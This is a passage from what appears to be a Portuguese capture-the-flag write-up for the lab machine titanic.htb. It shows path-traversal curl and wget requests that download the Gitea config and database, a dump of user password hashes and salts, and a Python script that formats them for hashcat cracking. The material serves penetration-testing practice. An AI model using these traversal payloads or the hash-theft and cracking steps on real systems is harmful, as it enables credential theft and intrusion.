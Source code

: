 (No momento da escrita deste writeup, estes posts estão indisponíveis.)

1. Extraímos o arquivo de configuração:

```bash
curl 'http://titanic.htb/download?ticket=../../../../../../../home/developer/gitea/data/gitea/conf/app.ini'
```

2. Obtivemos o banco de dados:

```bash
wget 'http://titanic.htb/download?ticket=../../../../../../home/developer/gitea/data/gitea/gitea.db' -O gitea.db
```

3. Extraímos informações de usuários:

```sql
sqlite3 gitea.db "select name, passwd_hash_algo, passwd, salt from user"
```

```text
administrator|pbkdf2$50000$50|cba20ccf927d3ad0567b68161732d3fbca098ce886bbc923b4062a3960d459c08d2dfc063b2406ac9207c980c47c5d017136|2d149e5fbd1b20cf31db3e3c6a28fc9b
developer|pbkdf2$50000$50|e531d398946137baea70ed6a680a54385ecff131309c0bd8f225f284406b7cbc8efc5dbef30bf1682619263444ea594cfb56|8bf3e3452b78544f8bee9400d6936d34
```

Após conseguimos o hash do usuário, podemos pesquisar maneiras de quebrar o PBKDF2 utilizando hashcat. Alguns posts que tratam do assunto são:

- <https://hashcat.net/forum/thread-7854.html>
- <https://hashcat.net/forum/thread-8391-post-44775.html#pid44775>

Após obtermos o hash do usuário, precisamos formatá-lo adequadamente para o hashcat. Para isso, solicitei o chatgpt para gerar um script que extrai e formata as informações no padrão que precisamos do banco de dados SQLite:

```python
import sqlite3
import base64

# Conectar ao banco de dados SQLite
conn = sqlite3.connect("gitea.db")
cursor = conn.cursor()

# Executar a query para obter os dados necessários
cursor.execute("SELECT passwd, salt, name FROM user WHERE name = 'developer'")


with open("gitea.hashes", "w") as f:
    for passwd_hex, salt_hex, name in cursor.fetchall():
        # Converter de hexadecimal para bytes e depois para Base64
        passwd_b64 = base64.b64encode(bytes.fromhex(passwd_hex)).decode()
        salt_b64 = base64.b64encode(bytes.fromhex(salt_hex)).decode()

        # Formatar no padrão Hashcat
        hashcat_entry = f"{name}:sha256:50000:{salt_b64}:{passwd_b64}"


        print(hashcat_entry)
        f.write(hashcat_entry + "\n")

conn.close()
```
